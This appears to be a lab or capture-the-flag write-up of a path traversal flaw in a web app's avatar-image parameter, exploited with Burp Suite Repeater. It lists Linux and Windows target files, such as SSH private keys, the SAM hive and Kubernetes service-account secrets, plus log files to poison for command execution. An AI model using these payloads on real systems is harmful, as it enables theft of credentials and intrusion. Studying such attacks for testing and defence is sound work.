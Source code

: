 # Path traversal

Looking at the URL of the profile picture in the Profile folder, we see that this image is displayed by calling the image name directly in the folder. So think of a possible loophole that is Path Traversal
![image](https://user-images.githubusercontent.com/63194321/132466602-3bee35bd-62d8-4ab1-b019-ec828afa44f3.png)


### Solution

__Use Burp Suite to make work easy__


__B1. We use Burp Suite to intercept the request to get the avatar image in the Profile section and send it to the Burp Repeater.__

![image](https://user-images.githubusercontent.com/63194321/132466638-cdd3d4df-b4a4-475a-b9a1-0f884eab281e.png)


__B2. We will change the value of the variable "images" instead of returning the name of an image, we can return an arbitrary path. (Depending on how the directory is arranged, the directory path may be different.) __

 ![image](https://user-images.githubusercontent.com/63194321/132466676-c4475297-48d7-4491-b214-c8be26e99ec0.png)

Observe that the returned result is not an image file anymore, but instead will be a result of the etc/passwd file.

### Exploit

Once we have identified this as a Path Traversal vulnerability, we can use payloads depending on the backend to deploy appropriately. We can access and read the data depending on the operating system as follows.

#### •	Linux:

`/etc/issue`

`/etc/passwd`

`/etc/mysql/my.cnf`

`/proc/net/tcp`

`/home/$USER/.bash_history`

`/home/$USER/.ssh/id_rsa`

`/run/secrets/kubernetes.io/serviceaccount/certificate`

`/var/run/secrets/kubernetes.io/serviceaccount`

#### •	Windows

`c:/boot.ini`

`c:/inetpub/logs/logfiles`

`c:/inetpub/wwwroot/global.asa`

`c:/sysprep.inf`

`c:/sysprep.xml`

`c:/system volume information/wpsettings.dat`

`c:/system32/inetsrv/metabase.xml`

`c:/unattend.txt`

`c:/windows/repair/sam`

`c:/windows/repair/system`

Besides, the following log files are controllable and can be included with an evil payload to achieve a command execution

`/var/log/apache/access.log`

`/var/log/apache/error.log`

`/var/log/httpd/error_log`

`/usr/local/apache/log/error_log`

`/usr/local/apache2/log/error_log`

`/var/log/vsftpd.log`

`/var/log/sshd.log`

`/var/log/mail`

Reference
•	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversa
